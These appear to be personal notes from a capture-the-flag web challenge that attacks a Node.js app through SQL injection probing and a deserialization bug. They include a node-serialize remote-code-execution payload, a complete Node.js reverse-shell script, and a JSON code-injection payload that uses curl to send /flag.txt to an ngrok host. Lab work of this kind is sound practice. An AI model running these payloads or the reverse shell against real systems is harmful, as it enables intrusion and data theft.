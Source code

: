 mysql

![[Screenshot 2022-05-14 at 18.42.11.png]]
![[Screenshot 2022-05-14 at 19.31.15.png]]


https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf
https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work


![[Screenshot 2022-05-14 at 20.39.42.png]]
![[Screenshot 2022-05-14 at 20.40.23.png]]
![[Screenshot 2022-05-14 at 22.55.16.png]]
![[Screenshot 2022-05-14 at 23.00.40.png]]
![[Screenshot 2022-05-15 at 14.16.07.png]]

error message when login post request is dropped in burp:
![[Screenshot 2022-05-14 at 23.05.21.png]]


error message for potential vulnerability running it through burp:
![[Screenshot 2022-05-15 at 14.38.56.png]]
--> parsing error
![[Screenshot 2022-05-15 at 14.48.21.png]] !!
[this](https://book.hacktricks.xyz/pentesting-web/login-bypass) and [this](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) helped 

`Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjUyNjIyNDkyfQ.GdVARMqKzcKJtI4-B2zIs0OKXCzlu3Vzw38xGFT-66Q`
![[Screenshot 2022-05-15 at 14.50.03.png]]

![[Screenshot 2022-05-15 at 14.52.00.png]]

feel it might have smtg to do with
`const changeMood = (mood) => {$('.spiky').removeClass('active');
$(`.${mood}`).addClass('active');`


Health + happiness only goes to 100, but weight could be set to 10003
Trying to set it to text:
![[Screenshot 2022-05-15 at 14.58.31.png]]
It is within `<span id="weight">`here`</span>`, 
`<script>` --> "missing parameters"
`alert('1')` --> something went wrong

![[Screenshot 2022-05-15 at 15.30.05.png]]

_deserialisation error_

`"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"`

**parseInt()** --> `return SpikyFactor.calculate(activity, parseInt(health), parseInt(weight), parseInt(happiness))
`

`SyntaxError: JSON.parse: unexpected character at line 1 column 1 of the JSON data` resulted in ![[Screenshot 2022-05-15 at 15.49.58.png]]



[useful?](https://infosecwriteups.com/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa)
var net = require('net');
var spawn = require('child_process').spawn;
HOST="127.0.0.1";
PORT="1337";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);



{
    "activity":"' == ''){global.process.mainModule.require('child_process').execSync('curl -d @/flag.txt http://4cb6-5-151-88-193.eu.ngrok.io').toString();//",
    "health":"60",
    "weight":"42",
    "happiness":"50"
}
![[Screenshot 2022-05-18 at 21.02.14.png]]


